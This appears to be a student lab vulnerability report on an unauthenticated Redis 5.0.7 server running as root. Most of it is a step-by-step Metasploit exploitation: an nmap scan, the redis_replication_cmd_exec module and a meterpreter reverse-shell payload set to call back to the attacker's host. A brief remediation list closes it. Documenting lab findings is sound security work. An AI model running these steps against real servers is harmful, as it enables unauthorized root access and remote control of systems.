

**CVE-ID**: EDU-REDISSERVER-2026-T03-003  
**Title**: Unauthenticated Redis Server Running as Root Enabling Remote Code Execution via Module Loading  
**Affected Lab**: Redis-Server  
**Component**: Reddis 5.0.7  
**Severity**: Critical  
**CVSS Vector**: AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H  
**CVSS Score**: 10.0  

**Description**:  
Redis server version 5.0.7 lacks authentication and critically runs as **root** (uid=0) instead of dedicated redis user. This allows unauthenticated attackers to load malicious Redis modules via replication protocol, achieving immediate root-level RCE. Exploitation succeeded using Metasploit's `redis_replication_cmd_exec` module.

**Proof of Concept**:  

Payload : on msf console use payload `linux/x64/meterpreter/reverse_tcp`  

**Steps to Reproduce**:  
1. Determine redis-server IP by using commands `sudo docker ps` followed by `sudo docker inspect [CONTAINERID]`. Or any other method of choice.
2. Perform nmap scan on the found IP by also enabling the default scripts: `nmap -sV -sC -T5 -p- [Reddis-ServerIP]`. Output will mention that redis server is running on port 6379 with version `Redis key-value store 5.0.7`
3. A simple google search showed a writen exploit in [exploitdb](https://www.exploit-db.com/exploits/47195)
4. open shell and type msfconsole
5. search for exploit `redis_replication_cmd_exec`
6. set payload to `linux/x64/meterpreter/reverse_tcp`  
7. set RHOSTS [Target Redis server IP address]
8. set RPORT 6379                # Redis server port (default)
9. set LHOST [Your machine's IP address (for reverse shell callback)]
10. set LPORT 4444                # Local port to receive reverse shell connection
11. set SRVHOST [Your machine's IP address (must be reachable by target!)]
12. set SRVPORT 6379              # Port for rogue Redis master server (must match RPORT)
13. exploit 
14. enjoy root acess!

**Remediation**:  
1. Run Redis as Dedicated Non-Root User
2. Enable authentication
3. Upgarde reddis to supported version

**Discovered By**: Team 3  
**Date**: 2026-02-13
